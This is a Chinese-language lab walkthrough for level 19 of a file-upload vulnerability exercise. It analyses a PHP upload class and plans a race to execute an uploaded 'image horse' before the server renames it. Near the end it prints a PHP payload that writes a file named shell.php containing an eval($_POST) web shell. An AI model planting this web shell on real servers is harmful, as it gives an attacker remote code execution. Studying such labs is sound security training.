 ```
    }

    // if we are here, we are ready to move the file to destination

    $ret = $this->move();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }

    // check if we need to rename the file

    if( $this->cls_rename_file == 1 ){
      $ret = $this->renameFile();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this->resultUpload( "SUCCESS" );
  
  }
......
......
...... 
};
```

首先提示，第十九关的上传路径有点问题，不是上传到了upload里面，建议修改一下，进入第十九关，找到myupload.php文件，在103行的dir后面加个`.'/'`

![image-20221214231656504](assets/image-20221214231656504.png)

然后我们来分析一下源码，服务器先是将文件后缀跟白名单做了对比，然后检查了文件大小以及文件是否已经存在。文件上传之后又对其进行了重命名。

这么看来的话，php是不能上传了，只能上传图片马了，而且需要在图片马没有被重命名之前访问它。要让图片马能够执行还要配合其他漏洞，比如我们之前用到的文件包含，apache解析漏洞等。

继续用上一关我们的php代码来制作图片马

```php
<?php
fputs(fopen('shell.php','w'),'<?php @eval($_POST["ljj"]) ?>');
?>
```

仍然是使用我们之前制作图片马的方法。
